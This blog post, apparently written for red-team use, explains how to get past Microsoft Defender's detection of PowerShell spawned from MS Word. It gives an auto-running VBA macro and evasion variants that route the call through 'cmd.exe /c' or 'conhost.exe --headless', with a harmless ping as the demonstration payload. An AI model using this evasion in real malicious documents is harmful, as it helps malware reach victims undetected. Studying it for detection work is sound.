 ```yaml
---
title: Defender Bypass - Spawn PowerShell Using Macros
date: "2021-10-22"
featuredImage: './logo.png'
---
```


Bypass Microsoft Defender when spawning a powershell.exe process from MS Word<!-- end -->.

# Parent/Child Process Relationship

Security solutions often monitor process relationships to detect malicious behaviour. With Microsoft Defender, if you attempt to spawn `powershell.exe` from MS Word, it will automatically flag it as a malicious program, regardless of what the spawned PowerShell process does. Let's explore how we can bypass this detection.

## Spawning PowerShell (The Detected Way)

Below we have an innocent looking VBA script that spawns PowerShell.exe via the `Shell` command and runs `ping google.com`.

    Sub AutoOpen()
    Test
    End Sub

    Sub Document_Open()
    Test
    End Sub

    Sub Test()
    Dim str As String
    str = "powershell.exe -c ping google.com"
    Shell str, vbHide
    End Sub

Unfortunately, Defender doesn't seem to agree that it's innocent. PowerShell has been abused to an extent where Microsoft Defender doesn't seem care what the command does.

<img src="./triggered.png" width="400px" height="300px"/>

If we go view 'Protection History' we can see its being treated as a Trojan.

![Trojan](./malicious.png)

## Spawning PowerShell (The Clean Way)

With an additional 10 characters to our command, Microsoft Defender won't complain anymore. We're going to modify our `Shell` command as shown below.

    # Before
    Shell "powershell.exe -c ping google.com", vbNormalFocus

    # After
    Shell "cmd.exe /c powershell.exe -c ping google.com", vbNormalFocus

![Bypass](./bypass-vid.gif)

Below we can see how the parent/child relationship was modified.

![child-processes-before](./child-processes-before.png)

![child-process-after](./child-processes.png)

## Avoiding Cmd.exe

Although `cmd.exe` is a better alternative than `powershell.exe`, it's still a highly monitored process by defenders. A better way which avoids `cmd.exe` is shown below.

    Shell "conhost.exe --headless powershell.exe -c ping google.com", vbNormalFocus

This way `cmd.exe` and `powershell.exe` are avoided as direct child processes.

![Conhost](./conhost-child.png)

## Why Does This Work?

After looking into this simple bypass it seems that Defender blacklists `powershell.exe` as a direct child process. In pseudocode it's probably programmed something like this:

`if WINWORD.exe spawns PowerShell.exe then Trojan`

Clearly we don't fit the above description so we're good!


# Conclusion

In a real engagement you should probably avoid the `Shell` command altogether, but the point of this post is to demonstrate how small modifications in behaviour can result in a different outcome. 
